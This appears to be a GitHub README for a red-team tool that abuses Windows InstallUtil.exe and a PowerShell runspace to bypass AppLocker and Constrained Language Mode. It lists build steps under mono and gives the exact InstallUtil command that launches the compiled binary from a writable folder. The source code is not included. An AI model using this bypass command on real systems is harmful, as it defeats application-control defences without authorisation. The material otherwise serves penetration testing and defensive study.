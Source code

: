 # Install Util Bypass App Locker
Abuse install utility, powershell run space to bypass app locker and CLM, build in linux by mono mcs.


## Requirement
```
sudo apt install -y mono-complete
```

## Build
```
chmod +x ./build.sh
./build.sh
```

## Method 1
Use to remote execute powershell runspace

## Method 2
Just spawn a powershell in the same session (NO AMSI Bypass)

Edit from https://github.com/calebstewart/bypass-clm/

## Use
Put the compiled file "install_util.exe" into any writeable folder, and execute following command
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Program.exe
```
